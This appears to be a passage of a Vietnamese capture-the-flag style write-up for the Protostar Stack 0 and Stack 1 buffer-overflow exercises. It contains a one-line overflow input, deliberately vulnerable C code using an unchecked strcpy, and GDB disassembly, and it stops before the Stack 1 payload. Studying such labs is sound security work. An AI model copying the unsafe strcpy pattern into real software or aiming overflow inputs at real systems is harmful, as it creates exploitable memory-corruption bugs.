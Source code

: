 ```python
  print('a'*65) | ./stack0
  you have changed the 'modified' variable
```

### Stack 1

Đề cho ta đoạn c

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Exploitation

Bài này như bài trên nhưng bài này nó cho ta các thông như **volatile int modified** , **strcpy** kiểu như một vào cái mới thôi không có gì lạ cả .

Bài anh cũng lỗi **BOF** ta vào GDB

```c
   0x08048464 <+0>:     push   ebp
   0x08048465 <+1>:     mov    ebp,esp
   0x08048467 <+3>:     and    esp,0xfffffff0
   0x0804846a <+6>:     sub    esp,0x60
   0x0804846d <+9>:     cmp    DWORD PTR [ebp+0x8],0x1
   0x08048471 <+13>:    jne    0x8048487 <main+35>
   0x08048473 <+15>:    mov    DWORD PTR [esp+0x4],0x80485a0
   0x0804847b <+23>:    mov    DWORD PTR [esp],0x1
   0x08048482 <+30>:    call   0x8048388 <errx@plt>
   0x08048487 <+35>:    mov    DWORD PTR [esp+0x5c],0x0
   0x0804848f <+43>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048492 <+46>:    add    eax,0x4
   0x08048495 <+49>:    mov    eax,DWORD PTR [eax]
   0x08048497 <+51>:    mov    DWORD PTR [esp+0x4],eax
   0x0804849b <+55>:    lea    eax,[esp+0x1c]
   0x0804849f <+59>:    mov    DWORD PTR [esp],eax
   0x080484a2 <+62>:    call   0x8048368 <strcpy@plt>
   0x080484a7 <+67>:    mov    eax,DWORD PTR [esp+0x5c]
   0x080484ab <+71>:    cmp    eax,0x61626364
   0x080484b0 <+76>:    jne    0x80484c0 <main+92>
   0x080484b2 <+78>:    mov    DWORD PTR [esp],0x80485bc
   0x080484b9 <+85>:    call   0x8048398 <puts@plt>
   0x080484be <+90>:    jmp    0x80484d5 <main+113>
```